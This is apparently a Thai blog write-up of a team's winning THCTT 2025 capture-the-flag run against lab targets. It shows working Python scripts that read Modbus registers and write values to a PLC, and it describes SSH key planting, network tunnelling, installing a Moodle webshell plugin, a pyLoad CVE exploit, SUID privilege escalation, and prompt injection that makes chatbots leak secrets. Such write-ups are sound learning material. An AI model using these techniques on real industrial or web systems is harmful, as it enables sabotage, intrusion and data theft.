





กลับมาอีกครั้งกับรายการ THCTT ปีนี้ 2025 ฮะ ซึ่งเป็นปีที่ 3 แล้ว เอาละในที่สุดสิ่งที่ไม่คาดฝันผมก็เกิดขึ้น คือ ทีม `Don't Know Everything` ผมชนะในระดับ Senior ฮะ ก็ดีใจครับ แต่แอบงงนิดหน่อย ถ้าดูสถิติก็ `2023 อันดับ 9` `2024 อันดับ 6` `2025 อันดับ 1` ก็มันควรได้ที่ 3 ไหมหว่า

ซึ่งตอนนี้ผมทำตัวไม่ถูกครับ ก็สับสนว่าจะดีใจหรือเศร้าใจดี ที่ต้องเป็นตัวแทน แต่เอาเป็นว่าก็คงดีแหละครับ


> NOTE: Blog นี้จะมีแค่บางข้อที่รู้และข้อที่ผมบันทึกไว้ครับ ซึ่งไม่ทั้งหมด

**Members**

- [@noonomyen](https://github.com/noonomyen)
- [@c0ffeeOverdose](https://github.com/c0ffeeOverdose)
- [@willywotz](https://github.com/willywotz)

# Challenges

จะถูกแบ่งออกเป็น 2 หมวดใหญ่ คือ Red / Blue อย่างละ 20 ข้อครับ ซึ่งรายชื่อ challenge ก็จะดังนี้ครับ

## Red

- **11 - LeakRegConfig**
- **12 - PacketSniffer**
- 13 - MemoryMap
- **14 - SensorSpoof**
- **21 - includes-ion**
- **22 - the force is strong**
- **23 - Sideloading**
- **24 - I got the ticket**
- **31 - Client Side Logic**
- 32 - So cube
- **33 - Internal E-Learning**
- 34 - That's it
- **41 - Pyload Server**
- **42 - LaTeXforYourThesis**
- 43 - Hidden_Page
- 44 - Break_the_Program
- **51 - Selfinvite**
- **52 - CatAI**
- **53 - HeyChatWhoami**
- 54 - AiMyPrecious

## Blue

- **11 - Echo of the Coli**
- **12 - Whispers in the Path**
- 13 - When the Bottle Is Empty
- **14 - The Voice That Wasn't There**
- **21 - First Entry**
- 22 - How did you get here?
- **23 - Impersonate & Escalate**
- 24 - Hybrid Theory
- 31 - The Initial Breach
- **32 - Lateral Movement Phase**
- 33 - Database Infiltration
- 34 - The Final Strike
- 41-4 - Supply Chain Attack
- **51 - Feature Hunter**
- **52 - Guardian Vision**
- **53 - Binary Whispers**
- 54 - Operation SkyGuard

---

# Red-11 - LeakRegConfig

_ให้ทำการเปิด pump control_ \
_IP: 192.168.68.1_ \
_Flag{MD5()}_

**Solved by: [@c0ffeeOverdose](https://github.com/c0ffeeOverdose)**


โดยข้อนี้เราจะต้องอ่านค่า Modbus registers

<details>
<summary><b>solve.py</b></summary>

```py
from pyModbusTCP.client import ModbusClient
import struct, re

HOST, PORT, UNIT = "192.168.68.1", 5020, 1
c = ModbusClient(host=HOST, port=PORT, unit_id=UNIT, auto_open=True, auto_close=True)

def read_regs(kind, base, count):
    if kind == "holding":
        return c.read_holding_registers(base, count)
    elif kind == "input":
        return c.read_input_registers(base, count)

def decode_le_ascii(regs):
    if not regs: return ""
    b = b"".join(struct.pack("<H", r) for r in regs)
    try:
        s = b.decode("latin1", "ignore")
    except:
        s = "".join(chr(x) if 32 <= x < 127 else " " for x in b)
    return s

found = None
for kind in ("holding", "input"):
    for base in range(0, 1024, 64):
        regs = read_regs(kind, base, 64)
        s = decode_le_ascii(regs)
        m = re.search(r"Flag\{[0-9a-fA-F]{32}\}", s)
        if m:
            found = m.group(0)
            print(f"[{kind} {base}-{base+63}] -> {found}")
            break
    if found: break
```

</details>

```text
[holding 0-63] -> Flag{07f42a54071d2d771047c1b07b6d51c7}
```

# Red-12 - PacketSniffer

_ไฟล์ pcap จับมาจากช่วง system start มีการ set ค่าแปลกๆ ให้ลองเลียนแบบการโจมตีเนื้อหา Flag โดย IP ที่อยู่ใน pcap เป็น IP จากระบบจำลองให้เปลี่ยนเป็น IP ของเครื่องเป้าหมายที่ได้รับ_ \
_IP: 192.168.68.1_ \
_Flag{MD5()}_

`S-leak_packet.zip`

เป็นไฟล์ pcap ฮะ


flag?

คือ chall ต้องการให้เราจำลองเหตุการนี้ขึ้นมาใหม่ครับ

<details>
<summary><b>replay.py</b></summary>

```py
from pylogix import PLC

TARGET_IP = "192.168.68.1"

def safe_status(tag_result):
    try:
        return f"{getattr(tag_result, 'Value', None)} | {getattr(tag_result, 'Status', None)}"
    except Exception as e:
        return f"Exception: {e}"

for slot in (0, 1):
    try:
        with PLC() as comm:
            comm.IPAddress = TARGET_IP
            comm.ProcessorSlot = slot

            r = comm.Read("Conveyor_Speed")
            print(f"[slot {slot}] Conveyor_Speed (before):", safe_status(r))

            w = comm.Write("Conveyor_Speed", 72)
            print(f"[slot {slot}] Write:", safe_status(w))

            f = comm.Read("Conveyor_Flag")
            print(f"[slot {slot}] Conveyor_Flag:", safe_status(f))
            break
    except Exception as e:
        print(f"[slot {slot}] error:", e)
```

</details>

reply โดยการเขียน 72 ไปที่ `Conveyor_Speed` เสร็จแล้วอ่าน `Conveyor_Flag`


`Flag{0b6a5e1e7dbbf55fb1929a9f12a18f65}`

# Red-14 - SensorSpoof

_โรงงาน hypernova ได้ทำ ph\_sensor source code leak ถ้าผู้เล่นสามารถส่งค่า PH ที่เกินกำหนดได้ก็จะได้ Flag_ \
_IP: 192.168.68.1_ \
_Flag{MD5()}_


มันมี device/info โพล่มาตอน connect อืมม base64 แน่นวล


`ph=12.5 for flag`

ก็ส่งค่าเข้าไปหลอกสิ




`Flag{dfd239cdefa62b95079388fb619a0a5f}`

# Red-3X

_ผู้เล่นจะได้รับมอบหมายให้ทำการค้นหาช่องโหว่บนเป้าหมายที่กำหนด รวมถึงการทดสอบเจาะระบบเพื่อเข้าถึง Shell และค้นหาข้อมูลสำคัญบนเครื่อง (User Flag) และ (Root Flag)_

# Red-33 - Internal E-Learning

_10.10.10.5_ \
_Flag{MD5()}_

หลังจากที่ [@c0ffeeOverdose](https://github.com/c0ffeeOverdose) exploit เข้าไปได้แล้วไป write `~/.ssh/authorized_keys` ด้วย key ที่สร้างขึ้นมาเองได้ เราเลยสามารถ remote เข้าไปผ่าน ssh ได้ ผมเลยเอา user นี้มาสร้าง tunnel ต่อสำหรับข้อนี้

เนื่องจากเครื่องนี้อยู่ในวง 10.x.x.x ซึ่งเราไม่ได้อยู่วงนี้เลยจำเป็นต้องทำ tunnel เข้ามาแทน

งานนี้ผมใช้ ligolo-ng ฮะ

::github{repo="nicocha30/ligolo-ng"}


โดยเราจะใช้เครื่องแรกเข้าไปลง agent


Now I'm in.

เอาละ หลังจากลองๆหาโน่นนี้ ลอง analyze ดูก็ได้รู้ว่ามันคือ Moodle


แต่ก็ไม่มี account อะ แต่ในความสงสัยว่ามี guest access ด้วยเข้าไปเจอ


ได้?? ได้แหละ

หลังจากได้ admin มาก็ทำการลองหาว่าทำไงต่อได้บ้างคงหนี้ไม่พ้น plugin อันตรายอะนะ แล้วทำไงละ ตอนแรกผมก็สร้างมันขึ้นมานั้นแหละ แต่ไม่ work เลยหาว่ามีคนทำไหมว่า และก็ เจอฮะ สบายละ

::github{repo="p0dalirius/Moodle-webshell-plugin"}


ใช้ง่ายซะด้วย


`Flag{39169947fe72002fbf48342dcc5a572b}`

# Red-41 - Pyload Server

_มี Server Pyload ถูกเปิดไว้ที่ Port 9666 แต่คุ้นๆว่าเหมือน CVE ที่เคยอ่านมาไม่นานมานี้_ \
_IP: 192.168.68.7_ \
_Flag{MD5()}_


แล้วจะรู้ไหมหล่า อืมมมม ถาม chat แล้ว CVE ไล่มาเยอะเกินหลายตัวเลือกหว่า งั้น exploit db แบบไม่หวังผล



ok หวังก็ได้ verify ขนาดนี้ [exploit-db/51532](https://www.exploit-db.com/exploits/51532)


hehe boi


หลังจากงมหาสักพักก็เจอสักที ว่าจะ grep ละ

`Flag{ce76cf598c8f80390a2dd720e63e5447}`

# Red-42 - LaTeXforYourThesis

_มี Compiler LaTex แต่ว่ามันมีความเป็นไปได้รึเปล่านะในการอ่าน Flag_ \
_IP: 192.168.68.7_ \
_Flag{MD5()}_

สำหรับข้อนี้ ผมทำใน reverse shell `Red-41` แต่ว่าพึ่งรู้ว่ามี ssh user ที่ exploit เข้าไปได้ ewww แต่ช่างมันเถอะผม privilege escalation ได้อยู่ดี (โม้แปป...)

สำหรับข้อนี้งมอยู่สักพักเลยแหละ มันจะอยู่ใน dir `Flag2` ซึ่งถ้า list dir ดูจะได้ประมาณนี้



<details>
<summary><b>LatexCompiler.sh</b></summary>

```sh
#!/usr/bin/env bash
 
if [[ $# -ne 1 ]]; then
    echo "What's up ***, This is how to Use ==> : ${0} TEX_FILE"
fi
 
if [[ -f "${1}" ]]; then
    TMP=$(mktemp -d)
    cp "${1}" "${TMP}/main.tex"
 
    # Compilation
    echo "[+] Compiling plz wait ..."
    timeout 5 /usr/bin/pdflatex \
        -halt-on-error \
        -output-format=pdf \
        -output-directory "${TMP}" \
        -no-shell-escape \
        "${TMP}/main.tex" > /dev/null
 
    timeout 5 /usr/bin/pdflatex \
        -halt-on-error \
        -output-format=pdf \
        -output-directory "${TMP}" \
        -no-shell-escape \
        "${TMP}/main.tex" > /dev/null
 
    chmod u+w "${TMP}/main.tex"
    rm "${TMP}/main.tex"
    chmod 750 -R "${TMP}"
    if [[ -f "${TMP}/main.pdf" ]]; then
        echo "[+] Compile Success => : ${TMP}/main.pdf"
    else
        echo "[!] Compile Error Debug ==> : ${TMP}/main.log"
    fi
else
    echo "[!] Can't access file ${1}"
fi
```

</details>

<details>
<summary><b>SETSUID.c</b></summary>

```cpp
#include <unistd.h>

// For ***
int main(int arc, char** arv) {
    char *argv[] = { "/bin/bash", "-p", "/home/amy/Flag2/LatexCompiler.sh", arv[1] , NULL };
    setreuid(geteuid(), geteuid());
    execve(argv[0], argv, NULL);
    return 0;
}
```

</details>

ส่วน `exploit.tex` ไม่เกี่ยวนะ ผมสร้างขึ้นมาทีหลัง เพราะผมกำลังออกทะเลอยู่ยังไงละ

เอาละ เห็น c code และ `s` ตรง permission ก็เดาได้เลยฮะว่ามันคือให้ทำอะไร

SUID (Set User ID) คือสถานะไฟล์พิเศษที่ทำให้ elf ไฟล์สามารถใช้ user ในนามเจ้าของไฟล์ได้

ดังนั้นเราจะใช้ `SETSUID` นี้ในการอัพสิทธิกัน แต่ในขณะนั้นเอง

หลังจาก compile error ชาติ 1 น่าจะได้ chat ก็หลงเข้าป่าไปด้วย ผมละงงจริงๆ จนมานั่งดูแล้วแบบ เฮ้ย `LatexCompiler.sh` มันของเรานิ งั้นจะเกิดอะไรขึ้นถ้าเราแก้ shell ไฟล์นี้ให้มัน cat flag แทน

เอาละผมไม่สนละว่า compile script มันจะถูกไหม


it work

`Flag{220464f10f93f01c00f11e23199befad}`

# Red-51 - Selfinvite

_มีการจัดงานปาร์ตี้กลุ่ม Hacker แต่คุณไม่ได้ถูกเชิญ หาทางเชิญตัวเองเข้าไปในปาร์ตี้นั้นสะ_ \
_Flag{MD5()}_


ก็แค่บอกว่า prompt injection คืออะไรเฉยๆ

`Flag{7e354828cab6efd4e886a0588ffe43dd}`

# Red-52 - CatAI

_คุณเข้าไปได้แล้ว! ลองหาข้อมูลลับๆที่แอบซ่อนไว้ ดู (เช่น flag.txt ที่อยู่ในเครื่อง)_ \
_Flag{MD5()}_


หลังจากแงะหน้าเว็บก็แล้วหาตาม code ก็ไม่เจออะไร แต่พอมาถาม ai อ้าวอยู่ในเครื่องแบบไหนนิ...

`Flag{ed042dfb4b874045c3b8d1bc3384e448}`

# Red-53 - HeyChatWhoami

_AI อาจจะมีข้อมูลสำคัญๆ ที่ผู้ใช้ทั่วไปไม่ควรรู้ก็เป็นไปได้ (เช่น admin token)_ \
_Flag{MD5()}_


หลอกถามเหมือนเดิมฮะ

`Flag{3f70189696fbb14a30dd01d522445e43}`

คือ หมดหนทางฮะ หลอกถามอะไรก็ไม่ได้ แต่ได้มาสองอย่าง คือ plaintext และ bcrypt งงๆอันหนึ่งมา ซึ่งไม่รู้จะทำไรต่อ ลอง hashcat ละ ช้ามากเลยปล่อยเลยละกาน ไปหาทำข้ออื่นครับ ewwww


- 11 - Echo of the Coli
- 12 - Whispers in the Path
- 13 - When the Bottle Is Empty
- 14 - The Voice That Wasn't There

# Blue-21 First Entry

_จากการที่ Attacker ได้ทำการ enumeration และทำการโจมตีโดยทีม IR คาดว่าอาจเกิดจากการรั่วไหลของ Credential ตั้งแต่เริ่ม_

_`Flag{MD5(username@example.com:Password)}`_

`S-MAIL01-SKYLINE.zip`

**Solved by [@willywotz](https://github.com/willywotz)**

เป็นไฟล์ pcap ซึ่งด้านในจะเป็น credential leak ผ่าน roundcube http login


ใน stream 65687



ประกอบร่าง `Flag{31a00928044d8861692f2735c5b82b6d}`

# Blue-32 - Lateral Movement Phase

_บริษัท Phoenix Financial Soulutions ถูกโจมตีโดย APT group ที่ใช้ CVE-2024-21887 (Ivanti command injection) ร่วมกับเทคนิค container escacpe เพื่อเข้าถึง Kubernates cluster ที่รัน core backing applications ในช่วงเวลา 05:00-12:00น. ผู้เข้าแข่งขันต้องวิเคราะห์หลักฐานจาก 4 แหล่งข้อมูล ได้แก่ Docker logs (40,000 บรรทัด), Kubernates audit logs (50,000 entries), network traffic captures, และ memory dumps เพื่อค้นหา flag ที่ซ่อนอยู่ในแต่ละระบบ โดย flag แต่ละส่วนถูก encode ด้วยวิธีการที่แตกต่างกัน (ROT13+Base64, Hex, XOR, และ plaintext) หลังจากที่ได้ flag ทั้ง 4 ส่วนแล้ว ต้องนำมารวมกันและสร้าง MD5 เป็นคำตอบสุดท้าย MD5(Part1\_Part2\_Part3\_Part4)_ \
_Flag{MD5(Part1\_Part2\_Part3\_Part4)}_

`S-IT_Blue_2.zip`

หาของแหละ อืมมม ไม่กี่ไฟล์ แต่ line เยอะเฉยๆ ಥ_ಥ


มี key ด้วย


ตัวนี้จะเป็น XOR ครับ


plaintext ฮะ




Base64 without ROT13???


line นี้ยาวแปลกๆ


รวม

```text
BASE64    : PHOENIX_FINANCIAL_2025_LATERAL_MOVEMENT_K8S_CONTAINER_ESCAPE_CVE21887_COMPLETE
HEX       : PHOENIX_FINANCIAL_2025_K8S_CONTAINER_ESCAPE
XOR       : ADVANCED_PERSISTENT_THREAT_LATERAL_MOVEMENT_COMPLETE
PLAINTEXT : APT_COMPROMISE_SUCCESS_HASH_TARGET
```


`Flag{7520c4dc455817ee8cd16bb4129e1b45}`

---
